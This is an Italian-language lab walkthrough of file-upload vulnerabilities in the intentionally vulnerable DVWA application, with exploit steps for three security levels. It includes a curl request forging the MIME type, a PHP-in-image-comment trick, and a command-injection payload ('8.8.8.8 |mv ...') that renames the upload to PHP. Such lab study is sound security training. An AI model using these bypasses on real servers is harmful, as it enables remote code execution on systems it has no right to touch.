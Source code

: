 ## File upload

- https://www.owasp.org/index.php/Unrestricted_File_Upload
- https://blogs.securiteam.com/index.php/archives/1268
- https://www.acunetix.com/websitesecurity/upload-forms-threat/

L'attaccante carica un file a suo piacimento per poi eseguirlo in altro modo.
L'attaccante può sovrascrivere file già presenti sul server sfruttando path e filename estratti dai metadati HTTP.
Si hanno problemi diversi se dimensione o contenuto del file vengono manipolati.

Esempi:

- file .jsp per eseguire codice come utente web
- file .gif per sfruttare una vulnerabilità nella image library
- file di grosse dimensioni per causare un DoS
- file con path adatto a sovrascrivere file critici
- file contenenti tag che ne causano l'esecuzione
- file .rar per essere analizzati dall'antivirus vulnerabile



### File Upload - Low

```
// Where are we going to be writing to?
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
```

Exploit:

- crea il file `fu_low.php` contenente `<?php phpinfo(); ?>`
- carica il file tramite la funzione esposta dall'applicazione
- accedi a `http://172.17.0.2/hackable/uploads/fu_low.php`

### File Upload - Medium

```
// File information
$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];

// Is it an image?
if( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) { ... }
```

Il valore di `$_FILES[ 'uploaded' ][ 'type' ]` può essere alterato creando un'apposita richiesta POST HTTP.

Exploit:

- crea il file `fu_medium.php` contenente `<?php phpinfo(); ?>`
- lancia (con `$1` PHPSESSID valido):

```
curl -v \
	--cookie "PHPSESSID=$1; security=medium" \
	-F "MAX_FILE_SIZE=100000" \
	-F "Upload=Upload" \
	-F "uploaded=@$filename; type=image/png" \
	http://172.17.0.2/vulnerabilities/upload/
```

- accedi a `http://172.17.0.2/hackable/uploads/fu_medium.php`

### File Upload - High

```
// File information
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ]; 

// Is it an image?
if( ( strtolower( $uploaded_ext ) == "jpg" || 
	strtolower( $uploaded_ext ) == "jpeg" || 
		strtolower( $uploaded_ext ) == "png" ) &&
				getimagesize( $uploaded_tmp ) ) { ... }
```

strrpos — Find the position of the last occurrence of a substring in a string

getimagesize — Get the size of an image  
On failure, FALSE is returned. 

Exploit:

- crea un'immagine `fu_high.jpg`, aprila con GIMP ed esportala
- nell'export aggiungi il commento `<?php phpinfo() ?>`
- carica l'immagine tramite la funzione esposta dall'applicazione
- sfrutta la vulnerabilità di Command Injection per rinominare il file `fu_high.jpg` -> `fu_high.php` (Exploit: `8.8.8.8 |mv /var/www/html/hackable/uploads/fu_high.jpg /var/www/html/hackable/uploads/fu_high.php`)
- accedi a `http://172.17.0.2/hackable/uploads/fu_high.php`

